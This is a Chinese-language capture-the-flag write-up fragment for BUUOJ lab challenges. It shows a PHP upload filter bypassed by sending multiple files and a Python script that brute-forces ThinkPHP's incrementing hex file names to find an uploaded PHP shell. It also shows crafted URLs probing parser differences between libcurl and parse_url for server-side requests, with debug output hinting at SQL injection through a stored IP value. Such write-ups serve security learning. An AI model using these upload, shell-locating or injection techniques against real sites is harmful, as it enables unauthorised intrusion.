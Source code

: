 大佬们太强了/fad/fad

```php
 $uploadFile = $_FILES['file'] ;
if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
```

如果上传多个文件, $uploadFile内包含多个文件,`strstr(strtolower($uploadFile['name']), ".php")`自然也就无效了,接下来就是获取文件名,就可以getshell,因为thinkphp文件名是递增的,所以也就很容易获取到想要的文件了

```pyhon
import requests
url="http://aba32602-5c6b-4a9f-bfa6-bbf2ca660f7e.node3.buuoj.cn/Public/Uploads/2019-10-18/"
i=(int("5da9dd208595a",16)+1)
while True:
	print(url+hex(i)[2:]+".php")
	res=requests.get(url+hex(i)[2:]+".php")
	print(res.status_code)
	if(res.status_code==200):
		print(url+hex(i)[2:]+".php")
		break

	i+=1
```



虽然说可以爆出来，不过也要跑好一会



### Online Proxy

利用libcurl和paras_url的差异来判断

http://node3.buuoj.cn:28001/?url=http://user@39.108.164.219@ccccccccccccc.com

200

http://node3.buuoj.cn:28001/?url=http://user@ccccccccccccc.com@39.108.164.219

504

而访问http://node3.buuoj.cn:28001/?url=http://39.108.164.219

也是504,所以有可能使用file_get_contents来访问url

刚开始一直盯着url,后面看到收集信息,99%是sql注入的题

就是不知道要收集什么信息

```html
<!-- Debug Info: 
 Duration: 0.20821499824524 s 
 Current Ip: 127.0.0.1  -->
<!-- Debug Info: 
 Duration: 0.34751987457275 s 
 Current Ip: '# 
Last Ip: ' -->
```
